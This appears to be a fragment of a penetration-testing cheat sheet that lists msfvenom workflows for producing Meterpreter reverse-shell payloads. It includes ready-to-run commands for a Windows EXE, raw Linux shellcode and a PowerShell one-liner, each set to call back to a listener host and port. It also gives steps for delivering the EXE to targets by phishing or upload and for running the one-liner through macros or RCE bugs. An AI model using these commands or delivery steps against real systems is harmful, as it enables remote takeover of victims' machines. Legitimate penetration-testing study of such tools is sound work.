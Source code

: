 <li><b>Typical workflow for artifact delivery for EXE:</b> 1. Build EXE with msfvenom. 2. Start handler in msfconsole with matching `PAYLOAD`, `LHOST`, `LPORT`. 3. Deliver EXE to target (E.g. upload, phishing) and run it. 4. Handler receives a Meterpreter session. <code>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f exe -o shell.exe</code></li>
<li><b>Typical workflow for raw shellcode embedding:</b> Generate `-f raw` shellcode and embed it into custom exploit or injector. Useful for exploit dev or when an exploit requires raw shellcode bytes. <code>msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f raw -o shell.bin</code></li>
<li><b>Typical workflow for fileless/ command delivery using PowerShell/one-liner:</b> Generate `psh-cmd` and execute it on target (via remote command execution, macro, RCE bug, etc.). Start handler to catch the reverse session. <code>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=... -f psh-cmd</code></li>
</ul>
